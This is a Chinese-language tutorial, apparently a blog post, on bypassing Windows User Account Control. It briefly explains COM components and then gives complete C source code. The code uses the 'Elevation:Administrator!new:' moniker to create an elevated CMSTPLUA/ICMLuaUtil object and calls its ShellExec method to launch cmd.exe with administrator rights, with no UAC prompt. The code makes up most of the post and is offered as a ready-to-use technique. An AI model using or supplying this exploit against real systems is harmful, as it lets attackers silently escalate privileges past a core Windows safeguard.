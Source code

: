# 通过com组件BypassUAC

## COM组件简介

> COM component（COM组件）是微软公司为了计算机工业的软件生产更加符合人类的行为方式开发的一种新的软件开发技术。在COM构架下，人们可以开发出各种各样的功能专一的组件，然后将它们按照需要组合起来，构成复杂的应用系统。

com组件本质上是二进制文件\(dll、exe,在windows系统内\),其调用方法与c++的类相似，程序可以通过被称为CLSID\(全局标识符\)作为索引在注册表内找到具体的二进制文件，这篇文章只会介绍应用方法，具体的逆向分析会在之后的文章内详细解释\(等公司买正版ida,现在用的盗版就不拿出来丢人了\)。

windows提供了一种com组件提权的方法，其原意大概是为了方便开发，所以当这种提提权方法的调用者是拥有微软签名的合法程序时，会忽略uac弹窗，这也为了我们利用该技术埋下了隐患。

```text
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void ** ppv)
{
    BIND_OPTS3 bo;
    WCHAR  wszCLSID[50];
    WCHAR  wszMonikerName[300];

    StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID)/sizeof(wszCLSID[0])); 
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName)/sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
    if (FAILED(hr))
        return hr;
    memset(&bo, 0, sizeof(bo));
    bo.cbStruct = sizeof(bo);
    bo.hwnd = hwnd;
    bo.dwClassContext  = CLSCTX_LOCAL_SERVER;
    return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```

在com组件中，有一个名为ICMLuaUtil的接口，这个接口提供了一个名为ShellExec的方法，顾名思义，可以执行任意传入的命令，如果我们能用提权的ICMLuaUtil接口调用ShellExec，那么我们就能获得一个不受限的管理员令牌。

## 流程

1. 初始化com库
2. 创建提升权限的ICMLuaUtil接口
3. 调用ICMLuaUtil的ShellExec方法
4. 弹出一个高权限的calc\(串戏了\)。

## 代码

```text
#include "BypassUAC.h"

HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	memset(&bo, 0, sizeof(bo));

	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;


	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);

	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;	
	}
}

int main() {
	CoInitialize(NULL);

	CMLuaUtilBypassUAC((LPWSTR)L"c:\\windows\\system32\\cmd.exe");
	CoUninitialize();
	return 0;
}
```

